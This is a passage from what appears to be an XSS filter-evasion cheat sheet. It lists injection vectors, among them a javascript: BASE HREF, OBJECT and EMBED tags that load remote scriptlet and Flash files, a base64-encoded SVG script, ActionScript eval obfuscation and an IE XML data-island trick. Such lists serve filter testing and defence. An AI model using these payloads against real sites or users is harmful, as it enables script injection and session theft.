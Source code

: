     <BASE HREF="javascript:alert('XSS');//">

## OBJECT tag

If they allow objects, you can also inject virus payloads to infect the users, etc. and same with the APPLET tag). The linked file is actually an HTML file that can contain your XSS:

    <OBJECT TYPE="text/x-scriptlet" DATA="http://xss.rocks/scriptlet.html"></OBJECT>

## Using an EMBED tag you can embed a Flash movie that contains XSS

Click here for a demo: ~~http://ha.ckers.org/xss.swf~~

    <EMBED SRC="http://ha.ckers.org/xss.swf" AllowScriptAccess="always"></EMBED>

If you add the attributes `allowScriptAccess="never"` and `allownetworking="internal"` it can mitigate
this risk (thank you to Jonathan Vanasco for the info).

## You can EMBED SVG which can contain your XSS vector

This example only works in Firefox, but it's better than the above vector in Firefox because it does not require the user to have Flash turned on or installed. Thanks to nEUrOO for this one.

    <EMBED SRC="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" AllowScriptAccess="always"></EMBED>

## Using ActionScript inside flash can obfuscate your XSS vector

    a="get";
    b="URL(\"";
    c="javascript:";
    d="alert('XSS');\")"; 
    eval(a+b+c+d);

## XML data island with CDATA obfuscation

This XSS attack works only in IE and Netscape 8.1 in IE rendering engine mode) - vector found by Sec Consult while auditing Yahoo:

    <XML ID="xss"><I><B><IMG SRC="javas<!-- -->cript:alert('XSS')"></B></I></XML> 
    <SPAN DATASRC="#xss" DATAFLD="B" DATAFORMATAS="HTML"></SPAN>

## Locally hosted XML with embedded JavaScript that is generated using an XML data island
